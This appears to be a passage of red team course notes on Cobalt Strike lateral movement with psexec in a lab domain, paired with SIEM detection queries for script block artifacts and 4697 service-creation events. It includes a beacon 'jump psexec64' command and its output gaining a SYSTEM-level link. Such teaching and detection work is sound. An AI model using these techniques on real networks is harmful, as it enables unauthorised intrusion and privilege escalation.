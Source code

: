 **The most likely means of identifying this lateral movement is by searching PowerShell script block logs for known payload artifacts:**

{% code overflow="wrap" %}
```
event.category: process and powershell.file.script_block_text: "$var_runme.Invoke([IntPtr]::Zero)"
```
{% endcode %}

## Using `psexec`

The `psexec`/`psexec64` commands work by uploading a service binary to the target system, then creating and starting a Windows service to execute that binary.&#x20;

* Beacons executed this way will run at `SYSTEM`-level integrity

```
beacon> jump psexec64 web.dev.cyberbotic.io smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10) on web via Service Control Manager (\\web\ADMIN$\768870c.exe)

Started service 768870c on web.dev.cyberbotic.io
[+] established link to child beacon: 10.10.122.30
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Detecting `PsExec`

A reliable way of searching for `PsExec` is by looking for `4697` service created events.

These are often quite rare, unless a service comes with a software installation or something similar.

Cobalt Strike generates a random 7-characted alphanumeric string which is then used for both the service name and binary file name.

When seeing the `binPath` for the service, it will use a `UNC` path to the `ADMIN$` share:

```
event.code: 4697 and winlog.event_data.ServiceFileName: \\\\*\\ADMIN$\\*.exe
```
